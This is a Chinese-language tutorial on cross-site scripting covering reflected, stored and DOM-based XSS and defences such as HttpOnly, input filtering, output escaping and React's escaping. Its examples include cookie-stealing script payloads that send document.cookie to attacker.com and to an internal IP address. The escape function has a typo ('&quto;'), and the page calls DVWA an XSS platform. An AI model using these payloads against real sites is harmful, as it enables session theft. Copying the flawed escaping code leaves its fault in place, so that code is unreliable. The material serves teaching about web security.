 # XSS 攻击

## 什么是 XSS 攻击？

XSS 是 Cross-Site Scripting（跨站脚本攻击）的简称。为了和 CSS 区分，所以把攻击的第一个字母改为 X。

是一种代码注入攻击。攻击者通过在在网站注入恶意脚本，使之在用户的浏览器上运行。恶意脚本可以获取用户的信息如 cookie 等，进而危害数据安全。

以下情况容易发生 XSS 攻击

1. 从一个不可靠的链接进入到一个 Web 应用程序
2. 没有过滤掉恶意代码的动态内容被发送给 Web 用户

恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。攻击方式有很多种，但他们的 _共同点为_：

**将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作**。

Q:跨站体现在哪里？

所获取到的 cookie 发送给 XSS 平台

Q:常见的 XSS 平台？

DVWA

## XSS 分类

根据攻击的来源，可以分为存储型、反射型、DOM 型。

| 类型       | 存储区                  | 插入点          |
| ---------- | ----------------------- | --------------- |
| 反射型 XSS | URL                     | HTML            |
| 存储型 XSS | 后端数据库              | HTML            |
| DOM 型 XSS | 后端数据库/前端存储/URL | 前端/JavaScript |

### 反射型 XSS

反射型指的是：攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致恶意代码的执行。

场景：假设有一个电商网站，它允许用户通过一个 GET 请求的查询参数 q 来搜索商品，用户搜索后，搜索词会显示在结果页面上。如果网站没有正确处理输入内容，攻击者便可以利用这个漏洞。

```bash
http://example-ecommerce.com/search?q=<script>var img = new Image(); img.src='http://attacker.com/steal?cookie=' + document.cookie;</script>
```

反射型是在无害 URL 的基础上构造特殊的 URL，在 URL 上给注入点注入特殊的字符串，当别人点击构造的链接时触发恶意代码；

具体流程：

1. 当攻击者构建了这个 URL 之后，会把这个 URL 做成一个链接，用户点击了这个链接之后就会执行恶意代码。
   - 为了隐蔽起见，可能会使用一些技术比如：短网址，把现在 URL 压缩。这样用户更容易上当。
2. 用户点击之后会把 cookie 发送给攻击者。
3. 使用你的身份进行登陆电商网站，进行购物/删除订单等。

常见于 GET 的方式，POST 的内容也可以触发

低危漏洞

### 存储型 XSS

存储型指的是：攻击者将恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

比如将 恶意代码提交到后端去，那么所有访问这个网页的用户，都会报错。

场景：

比如一个留言板，攻击者在留言板写入恶意代码，提交的字符串上传到了服务器，当别人访问这个留言板时就会触发代码；

代码执行的过程中，有可能会获取用户的 cookie，然后发送到攻击者所在的机器上，或者指定的服务器上，这样攻击者就可以盗用用户的 cookie 登录到这个网站

具体流程：

有个论坛，大家可以发布留言。然后后面的用户进来可以看到这些留言，假设你输入的留言服务端没有做任何过滤和转译

- 如果说留言是一个文本输入框，那么攻击者如果输入 `<script>alert('这里我注入一些恶意代码')</script>` 那么浏览器就会执行里面的代码，所有进入这个页面的用户，就都会弹出这些内容。
- 同样是这个输入框，如果用户是写入的如下代码

  ```javascript
  <script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
  </script>

  <script>
    document.write('
    <img src="http://172.22.144.20/?'+document.cookie+'" />
    ');
  </script>
  ```

那么用户浏览到这个页面的时候，就会把自己的 cookie 发送到这台机器上。然后攻击者可以使用拿到的 cookie 信息，登录账号做一些恶意行为

高危漏洞

### DOM 型 XSS

DOM 型指的是：攻击者构建了特殊的 URL，用户打开网站后，网站正常响应，在一些特殊的地方脚本会执行。比如点击锚点定位时。

类似于反射型，区别在于 DOM 型 XSS 并不会和后台进行交互，前端直接将 URL 中的数据不做处理并动态插入到 HTML 中，是纯粹的前端安全问题，要做防御也只能在客户端上进行防御。

场景：网站上有个几张图片，当你点击之后会切换，同时 URL 会有 `#xxx` 的锚点，方便用户刷新后直接定位到该图片。此时 URL 大概长这样 `http://post.com/img#1`，如果没有做处理攻击者可以把 url 改写成 `http://post.com/img#' onerror='alert()'`

低低危漏洞

## 防范措施

### HttpOnly

浏览器将禁止页面的 JavaScript 访问带有 HttpOnly 属性的 Cookie

就是服务器在 setCookie 的时候，设置 HttpOnly；

在 cookie 中设置 HttpOnly 属性后，JS 脚本将无法读取到 cookie 信息。

它解决的是 XSS 后 Cookie 劫持问题。就是无法拿到这种类型的 Cookie。

### 输入检查（输入过滤）

原则：**不要相信用户的任何输入**。

措施：对于用户的任何输入要进行检查、**过滤**、**转义**。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。

说明：而在一些前端框架中，都会有一份 decodingMap， 用于对用户输入所包含的特殊字符或标签进行编码或过滤，如 <，>，script，防止 XSS 攻击。

一般是对输入格式的检查，例如：用户名、密码、邮箱、电话号码...等，按照规定的格式输入。

### 输出检查（转义 HTML）

一般说来，所有需要输出到 HTML 页面的变量，全部需要使用编码或者转义来防御。

措施：对内容进行编码或者转义。

比如对于 `"`、`<`、`>`、`/`、`&`、`'` 等进行转义

```javascript
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}
```

### 白名单

## React 如何防范 XSS 攻击

React DOM 在渲染所有输入内容之前，默认会进行转义。

所有的内容在渲染之前都被转换成了字符串，因此恶意代码无法成功注入，从而有效地防止了 XSS 攻击。我们具体看下：

但是有一个需要自己考虑 `dangerouslySetInnerHTML`

```javascript
<p
  dangerouslySetInnerHTML={{
    __html: getURL(dialogData.content),
  }}
/>
```
